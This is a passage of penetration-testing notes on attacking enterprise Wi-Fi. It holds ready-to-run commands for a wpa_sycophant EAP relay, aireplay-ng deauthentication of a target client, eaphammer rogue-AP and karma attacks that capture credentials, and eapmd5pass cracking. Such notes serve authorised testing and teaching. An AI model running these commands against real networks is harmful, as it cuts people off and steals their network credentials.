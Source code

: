 Run with
``./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan1``

#### wlan2
Deauth a client connected to the target network so that it (hopefully) connects to our rogue AP, which will relay traffic to sycophant
``aireplay-ng -0 4 -a <target BSSID> -c <target client MAC> wlan2``

We should see the connection in sycophant if everything goes well, and then in wlan2 we can do the following to get an IP
``dhclient -v wlan1``


### EAPhammer:
Tool to create fake APs
```bash
./eaphammer -i wlan1 --channel 6 --auth wpa-eap --essid DefenseConference --creds

# karma attack, make every client believe that we are the AP(s) that he is probing. The difference between karma attack and evil twin is that karma uses the probe requests sent by clients (from their preferred network list, PNL) and in evil twin we must guess the APs they want to connect to
./eaphammer -i wlan1 --channel 6 --auth wpa-eap --essid DefenseConference --creds --karma
```


### EAP MD5 crack
``./eapmd5pass -w dict -r eapmd5-sample.dump``
